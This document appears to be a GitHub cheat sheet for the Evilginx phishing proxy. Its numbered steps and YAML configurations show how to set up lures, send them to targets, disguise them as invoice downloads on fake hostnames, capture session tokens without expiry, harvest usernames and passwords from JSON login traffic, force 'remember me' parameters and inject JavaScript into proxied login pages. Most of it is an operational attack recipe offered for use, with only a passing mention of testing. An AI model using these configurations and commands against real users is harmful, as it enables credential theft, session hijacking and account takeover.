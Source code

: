 # Evilginx CheatSheet

1. Clone the git repo of [evilginx](https://github.com/kgretzky/evilginx2).

2. Configure [phishlets](https://github.com/kgretzky/evilginx2/blob/master/phishlets/example.yaml). Sample in link, amazing YAML ease of use.

3. Once the phishlets are configured, open Evilginx and you will see the phishlet. Then configure the domain and IP.
    ![with phishlet I created](image.png)

4. You can get help like `help <keyword>`.

5. Set the hostname which should end with the domain you created when configuring the domain and IP, like `same.dummy.com`.

6. Set the hosts file entry if in local.

7. Set the lure up. Create a lure using `lures create <phishlet>`. The rest of it `help lures` gives the manual.

8. Once you get the lure URL, either send it to someone you want to phish or try the URL if you are testing it out.

9. The session will be captured. Make sure to add the modifier `always` to capture the session token without an expiry date. You can use `sessions` to list sessions, and `sessions <id>` to list the details of the session.

10. You can personalize the lures. Example of sending the lure as an invoice download: `lures edit 0 path /download/invoice/5465/`. You can change the hostname of the URL by `lures edit 0 hostname this.is.a.real.website.fake.com`.

11. You can use custom parameters in lures like `lures get-url 0 email=abhishek@gmail.com name="Abhishek Narasimhan"`. Every time the URL parameter would be different and will be difficult to find.

12. Replacing content on the fly is amazing. Example: changing the "Login" button to anything you want it to be by updating the sub-filters in the YAML file. Example:
     ```yaml
     sub_filters:
        - {triggers_on: 'dummy.dum.evilginx.com', orig_sub: 'akira', domain: 'dum.evilginx.com', search: '" Login "', replace: '" Get Phished! "', mimes: ['text/javascript']}
     ```

13. Forcing POST parameters, for example, to keep the user logged in even if they did not select the option. Example configuration in YAML file:
    ```yaml
    path: '/api/v1/auth/login'
    search: 
      - {key: 'email', search: '.*'}
      - {key: 'password', search: '.*'}
    force:
      - {key: 'remember_me', value: '1'}
    type: 'post'
    ```

14. No session token. What can be done? Format sent in JSON. The credential setting to check in JSON format is different.
    * There are instances where MFA is not enabled and the token will be present in the login endpoint.
    * Example in YAML:
    ```yaml
    auth_tokens:
      - domain: 'dummy.dum.evilginx.com'
        path: '/api/v1/auth/.*'
        name: 'token'
        search: '"token":"([^"]*)"'
        type: 'body'
    credentials:
      username:
        key: ''
        search: '"email":"([^"]*)"'
        type: 'json'
      password:
        key: ''
        search: '"password":"([^"]*)"'
        type: 'json'
    ```

15. JS injection using Evilginx.

    For the JS to be injected, you need to add `trigger_params` and its parameter; otherwise, it won't be injected. Sample YAML for `js_inject`:
    ```yaml
    js_inject:
      - trigger_domains: ["dummy.dym.evilginx.com"]
        trigger_paths: ["/"]
        trigger_params: ["email"]
        script: |
          function aaa() {
            var u = document.querySelector("input[type=email]");
            var p = document.querySelector("input[type=password]");
            var c = document.querySelector("#rememberCheck");
            if (u !== null && p !== null && c !== null) {
              c.checked = true;
              u.value= "{email}";
              p.focus();
            }
            else {
              bbb();
            }
          }
          function bbb() {
            setTimeout(function() {aaa();}, 100);
          }
          bbb();
    ```

    